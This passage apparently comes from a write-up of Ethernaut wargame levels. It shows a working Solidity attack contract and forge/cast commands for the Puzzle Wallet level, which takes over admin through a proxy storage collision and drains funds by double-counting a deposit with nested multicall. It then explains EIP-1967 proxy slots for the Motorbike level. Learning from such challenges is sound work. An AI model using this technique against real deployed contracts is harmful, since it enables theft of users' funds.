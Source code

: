 Within a `multicall` call, we can only call deposit **once.** So it suffices to either do `multicall[deposit(), multicall([deposit()])]` or `multicall[multicall([deposit()]), multicall([deposit()])]` . What does **not** work is `multicall([deposit(), deposit()])` , which returns an “Deposit can only be called once” error. 

The result of this is we are able to call `deposit` twice (registering `msg.value` twice) while only sending ETH once! 

**Steps to complete**:
1. Create attacker contract with enough ether to conduct attack\
`forge create src/AttackPuzzleWallet.sol:AttackPuzzleWallet --value 0.001ether --verify --constructor-args <challenge_addr>`
2. Call attack `cast send <attacker_contract> "attack()”`

```solidity
function attack() public {
    //sets owner
    pw.proposeNewAdmin(address(this)); 
    //as attacker is owner, it can add itself to whitelist
    pw.addToWhitelist(address(this));

    //we are only allowed to call deposit once in the multicall    
    bytes memory depositcall = abi.encodeWithSignature("deposit()");
    bytes[] memory wrapped_depositcall = new bytes[](1);
    wrapped_depositcall[0] = depositcall;

    //we wrap a deposit in another multicall
    //ie., multicall(deposit,multicall(deposit))
    bytes[] memory nestedCall = new bytes[](2);
    nestedCall[0] = depositcall;        
    nestedCall[1] = abi.encodeWithSignature("multicall(bytes[])", wrapped_depositcall);
    
    uint amtToDrain = address(pw).balance; 
    //take credit for existing balance of victim contract, as well as the balance we added
    pw.multicall{value:amtToDrain}(nestedCall);                
    pw.execute(msg.sender, 2*amtToDrain, ""); //drain the puzzlewallet contract
    pw.setMaxBalance(uint256(uint160(msg.sender)));
}
```

We can verify in the game console that the storage slot 1 (corresponding to `admin`) has been successfully updated to our address
- `await web3.eth.getStorageAt(instance, 1);` returns `0x0000000000000000000000009bdcf9696e273afd83992b1fb5672a70532ca9e1`
    - (40-hex address zero-padded to 64 hex characters = 32bytes)

****
# Motorbike

Proxy contracts use `delegatecall` on a logic contract so that business logic code is upgradeable without changing the proxy state.
- To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is usually saved in a specific slot (for example `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`
 in OpenZeppelin contracts) guaranteed to be never allocated by a compiler
- Note that the implementation slot `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc` is not a coincidence.
It is the keccak256 hash of "eip1967.proxy.implementation" minus 1
```jsx
//javascript
const strings_utils = require("@ethersproject/strings");
const {keccak256} = require("@ethersproject/keccak256");
console.log(keccak256(strings_utils.toUtf8Bytes("eip1967.proxy.implementation")));
//prints 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbd
```
